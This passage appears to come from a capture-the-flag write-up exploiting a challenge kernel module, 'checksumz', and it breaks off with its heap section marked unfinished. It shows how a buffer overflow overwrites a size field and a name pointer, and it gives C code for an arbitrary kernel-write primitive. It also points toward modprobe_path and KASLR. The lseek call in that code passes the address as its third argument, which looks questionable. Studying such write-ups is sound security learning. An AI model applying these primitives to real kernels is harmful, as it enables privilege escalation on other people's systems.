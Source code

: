 The first we're going to do is to override that `size` variable withthe
overflow we have in the `state` buffer, since they're next to each other we
just need to `lseek` to the end of `state` and then write a big value for `size`.

Now that we are no longer constrained by 16 bytes right after `state`, we can
also override the `name` string pointer. This is going to be very useful since
we can use the `rename` `ioctl` to write to that pointer 48 bytes.

```c
static long checksumz_ioctl(struct file *file, unsigned int command, unsigned long arg) {
	struct checksum_buffer* buffer = file->private_data;
	if (!file->private_data)
		return -EBADFD;
	
	switch (command) {
        // ...
		case CHECKSUMZ_IOCTL_RENAME:
			char __user *user_name_buf = (char __user*) arg;

			if (copy_from_user(buffer->name, user_name_buf, 48)) {
				return -EFAULT;
			}
        // ...
```


By overwriting the value in the `name` pointer and calling the `rename` `ioctl`
we have an arbitrary write anywhere in the kernel :)

```c
void arb_write(int fd, uint64_t addr, uint64_t* data) {
    lseek(fd, 0x210, addr);
    write(fd, &addr, sizeof(addr));

    if (ioctl(fd, CHECKSUMZ_IOCTL_RENAME, data) < 0) {
        perror("ioctl - CHECKSUMZ_IOCTL_RENAME");
    }
}
```

# Heap magic



Oops, the writeup for this part is in progress...


`modprobe_path`, `KASLR`, `kmalloc-1024`

Since we have a overflow on a object allocated to `kmalloc-1024` the heap
layout will look like this:


```goat
┌──────┬─────┬─────────────────┬───────────┐
│ data │ ??? │ checksum_buffer │ ???       │
├──────┼─────┼─────────────────┼───────────┤
│ addr │ ?   │ ? + 0x400       │ ? + 0x800 │
└──────┴─────┴─────────────────┴───────────┘
```
